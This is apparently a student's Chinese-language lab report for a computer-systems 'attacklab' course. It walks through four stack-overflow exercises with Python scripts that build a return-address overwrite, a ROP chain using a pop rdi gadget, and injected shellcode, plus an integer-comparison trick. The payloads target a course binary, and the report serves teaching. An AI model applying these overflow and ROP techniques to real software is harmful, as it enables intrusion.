




# 栈溢出攻击实验

## 题目解决思路


### Problem 1: 
- **分析**：

 通过 IDA 反汇编 func 函数，发现程序使用 strcpy 将用户输入复制到栈上的 buffer 中，且未进行长度检查。

 栈帧分析：buffer 位于 rbp-0x8 的位置。

 偏移量计算：为了覆盖返回地址（Return Address），需要填充 8 字节（buffer 本身） + 8 字节（旧栈帧），共 16 字节。

 攻击目标：覆盖返回地址为 func1 函数的地址（0x401216），该函数会输出 "Yes!I like ICS!"。

- **解决方案**：payload是什么，即你的python代码or其他能体现你payload信息的代码/图片
```py
# 1. 填充 16 字节（8字节buffer + 8字节saved rbp）
padding = b"A" * 16

# 2. 目标函数 func1 的地址: 0x401216
# 转换成 8 字节的小端序格式
target_addr = b"\x16\x12\x40\x00\x00\x00\x00\x00"

payload = padding + target_addr

# 3. 写入文件
with open("ans1.txt", "wb") as f:
    f.write(payload)

print("Payload 已生成至 ans1.txt")
```

- **结果**：附上图片


### Problem 2:
- **分析**：

本题开启了栈不可执行，因此需要使用 ROP实现栈溢出的攻击。

目标：调用 func2(0x3F8)。

参数传递：64 位系统中，第一个参数通过 rdi 寄存器传递。我们需要找到一个 pop rdi; ret 的 Gadget。

Gadget 查找：在 IDA 中发现 pop_rdi 函数包含可用指令片段，地址为 0x4012C7。

溢出点：func 函数中使用 memcpy，偏移量依然为 16 字节。

- **解决方案**：payload是什么，即你的python代码or其他能体现你payload信息的代码/图片：a
```py
import struct

padding = b"A" * 16
pop_rdi = struct.pack("<Q", 0x4012C7)  # pop rdi; ret
arg_x = struct.pack("<Q", 0x3F8)       # 参数 1016
func2 = struct.pack("<Q", 0x401216)    # 目标函数

payload = padding + pop_rdi + arg_x + func2

with open("ans2.txt", "wb") as f:
    f.write(payload)
```

- **结果**：附上图片


### Problem 3: 
- **分析**：

本题栈地址随机化可能开启，但栈是可执行的,最终目标是输出幸运数字 114。

Shellcode：编写汇编代码 mov rdi, 114; call func1 并转为机器码。

栈地址问题：由于 ASLR，栈地址不固定。但在 IDA 中发现了一个辅助函数 jmp_xs (0x401334)，它会跳转到 saved_rsp + 16 的位置，这恰好是 buffer 的起始位置。

攻击路径：将 Shellcode 放在 buffer 开头 -> 填充至 40 字节偏移 -> 覆盖返回地址为 jmp_xs -> 程序跳回栈上执行 Shellcode。

- **解决方案**：payload是什么，即你的python代码or其他能体现你payload信息的代码/图片:
```py
import struct

# 汇编对应的机器码: mov rdi, 114; mov rax, 0x401216; call rax
shellcode = b"\x48\xc7\xc7\x72\x00\x00\x00\x48\xc7\xc0\x16\x12\x40\x00\xff\xd0"

# 偏移量 40 字节 (32 byte buffer + 8 byte rbp)
padding = b"A" * (40 - len(shellcode))

# 使用 jmp_xs (0x401334) 作为跳板，避免手动定位栈地址
jmp_xs = struct.pack("<Q", 0x401334)

payload = shellcode + padding + jmp_xs

with open("ans3.txt", "wb") as f:
    f.write(payload)
```

- **结果**：附上图片


### Problem 4: 
- **分析**：体现canary的保护机制是什么：

通过阅读 IDA 汇编代码，发现 func 函数开头使用 mov rax, fs:28h 读取随机值放入栈底（rbp-8），并在函数结尾处再次读取该值与 fs:28h 进行异或对比。如果两者不一致（说明发生了栈溢出），则调用 ___stack_chk_fail 终止程序。

逻辑漏洞：本题并非绕过 Canary，而是利用逻辑漏洞。代码中存在一个无符号数比较 cmp eax, 0xFFFFFFFE; jnb loc_13C0。

通关条件：输入 -1（即十六进制 0xFFFFFFFF），满足无符号数大于 0xFFFFFFFE 的条件，进入特定循环，最终满足检查条件调用 func1。

- **解决方案**：payload是什么，即你的python代码or其他能体现你payload信息的代码/图片：
不需要编写二进制 Payload，直接利用整数溢出和逻辑判断。 Payload 内容仅为：-1

- **结果**：附上图片


## 思考与总结
这次的attacklab让我使用了一下IDA工具，它能将晦涩的汇编转换为易读的控制流图和伪代码，并且有查找功能且可以通过EXports帮助快速定位漏洞点（如 strcpy, memcpy）和辅助函数（如 Problem 3 中的 jmp_xs），整体而言比linklab有趣很多，实操性更强。

实际上我觉得attacklab真的很适合期末考完做一下，整体而言压力没有cachelab和bomblab那么大，实验设计也足够有趣，类似datalab的解决一个一个问题的模式也非常让人有成就感，是一个ics1的非常好的收尾。

ics1实验完结撒花！！！


## 参考资料

列出在准备报告过程中参考的所有文献、网站或其他资源，确保引用格式正确：
IDA Pro Documentation / Hex-Rays Website.